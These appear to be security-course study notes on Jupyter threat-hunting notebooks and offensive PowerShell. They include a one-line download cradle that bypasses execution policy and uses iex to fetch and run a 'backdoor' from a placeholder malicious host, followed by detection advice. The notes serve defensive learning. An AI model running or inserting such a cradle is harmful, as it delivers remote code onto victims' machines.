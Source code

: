## Notebook Kernels
#kernals
Jupyter documentation often uses the name ‘kernel’ when discussing language processing. The kernel is the utility that interprets code within code cells, evaluates, and executes it, and returns output to the frontend  client.

 - (Jupyter) Register .NET interactive kernel with:  `dotnet interactive jupyter install`  
 - (Jupyter) List installed kernels:  `jupyter kernelspec list`

## Notebook Cells
Book2:Page151

## Variable Scope inside of Notebooks
Book2:Page154

## Notebook Example's
### Initial Triage
Book2:Page155
![[Pasted image 20230530122555.png]]
![[Pasted image 20230530122619.png]]

### Hunt campaigns
Book2:Page158
![[Pasted image 20230530122940.png]]
![[Pasted image 20230530123045.png]]
![[Pasted image 20230530123052.png]]
# 3.1 Offensive Powershell
## PowerShell as a Downloader
Book3:Page9
#invoke-webrequest 
#webclient
 - `Invoke-WebRequest` or `System.Net.WebClient` act as downloader
 - Wrap in `Invoke-Expression` (`iex` alias) for automatic execution
```Command
powershell.exe -ep Bypass -nop -noexit -c iex ((New Object
System.Net.WebClient).DownloadString(‘https://some-malicious-
site.com/backdoor′))
```

## Detection
### Initial Access and Execution
Book3:Page11
 - Traditional defenses can also be used  
• Sysmon/Windows Event ID 4688 can identify parent/child relationships  
• Parent process of WMI, Office, etc.  
• Child Process of script execution  
• See Sigma rules in notes  
• Network-based Egress Filtering  
• Look for abnormal HTTP headers (PowerShell User Agent or no User Agent, i.e.,  
WebClient)  
• Web Proxy should have default deny policy to block access to non-permitted sites
